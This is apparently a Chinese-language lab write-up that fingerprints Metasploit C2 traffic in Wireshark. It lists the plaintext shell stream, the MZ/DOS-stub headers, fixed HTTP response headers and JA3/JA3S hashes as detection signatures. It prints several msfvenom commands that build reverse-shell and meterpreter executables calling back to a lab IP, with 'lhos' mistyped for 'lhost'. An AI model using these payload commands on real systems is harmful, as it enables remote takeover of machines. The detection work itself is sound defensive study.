

# C2 流量分析 - MSF

## MSF

## shell 模式 - TCP

制作`shell`模式的`payload`

```bash
msfvenom -p windows/x64/shell/reverse_tcp lhos=192.168.111.162 lport=1234 -f exe -o shell.exe     
```

靶机连接MSF，使用wireshark抓包



我们在`Kali`上执行`dir`


回到wireshark追踪TCP数据流，可以看到是以**明文**传输的


## meterpreter - TCP

该模式`x64`和`x32`是不一样的，首先看`x32`的后门

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhos=192.168.111.162 lport=1234 -f exe -o shell.exe    
```

靶机连接抓包


执行命令然后追踪流，数据是加密了的；可以看到`MZ`头，明确表明这是一个 **Windows 可执行文件（PE 文件）** 的开头部分


生成`x64`的后门

```bash
 msfvenom -p windows/x64/meterpreter/reverse_tcp lhos=192.168.111.162 lport=1234 -f exe -o shell.exe
```

靶机连接抓包，追踪TCP数据流


- **`MZ` (0x4D 0x5A)** → 这表明是 **Windows PE 文件**（可执行文件 `.exe`、动态库 `.dll` 或驱动 `.sys`）。
- **`This program cannot be run in DOS mode.`** → 典型的 **DOS Stub**，再次确认是 PE 文件
- **后续字段 `ARUH..H..H`**：
    - 这里的 `H` (0x48) 是 **x86-64 (`REX.W` 指令前缀)**，通常出现在 64 位代码中

总结：这样一看x32和x64的meterpreter的特征都是差不多的，都存在`This program cannot be run in DOS mode.` 头部有微微区别，那么`meterpreter TCP`的特征就是MZ头和DOS异常

## meterpreter - HTTP

首先查看`x64`的

```bash
msfvenom -p windows/x64/meterpreter/reverse_http lhos=192.168.111.162 lport=1234 -f exe -o shell.exe   
```

靶机执行，wireshark抓包，比TCP的payload多了http的请求和响应包


追踪TCP数据流，比上面通过TCP连接的多了请求包和响应包


追踪HTTP流每个请求的参数和响应包都是一样的


我们将后门换一个端口来看TCP数据流

```bash
msfvenom -p windows/x64/meterpreter/reverse_http lhos=192.168.111.162 lport=1235 -f exe -o shell.exe           
```


可以发现有特征了，不同的端口的**返回包**都是一样的，无论是字段还是值。

```bash
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Connection: close
Server: Apache
Content-Length: 204892
```

两个端口的**请求包**对比，`UA`前部分是相同的，`get`的参数不同


```bash
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
User-Agent: Mozilla/5.0 
```

再看`x32`的

```bash
msfvenom -p windows/meterpreter/reverse_http lhos=192.168.111.162 lport=1234 -f exe -o shell.exe      
```


不同端口

```bash
msfvenom -p windows/meterpreter/reverse_http lhos=192.168.111.162 lport=1235 -f exe -o shell.exe      
```


特征和x64的是差不多的，返回包也都是一样的

```bash
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Connection: Keep-Alive
Server: Apache
Content-Length: 178780
```

总结：x64和x32的meterpreter HTTP后门的返回包都是一样的，请求包的UA前面一部分是相同的，如果发现大量请求一个参数相同，并且返回包一样，就判断是MSF的HTTP后门

## meterpreter - HTTPS

```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhos=192.168.111.162 lport=4444 -f exe -o shell.exe
msfvenom -p windows/meterpreter/reverse_https lhos=192.168.111.162 lport=4444 -f exe -o shell.exe
```


总结：特征就是JA3和JA3S值，MSF的HTTPS后门只存在下面几种JA3值（看了网上有四种，但是我这怎么测试都是只有这两种）

相同版本相同系统下指纹（JA3）相同，该特征与操作系统、MSF 版本有关

```bash
// JA3S
ec74a5c51106f0419184d0dd08fb05bc
// JA3
72a589da586844d7f0818ce684948eea
```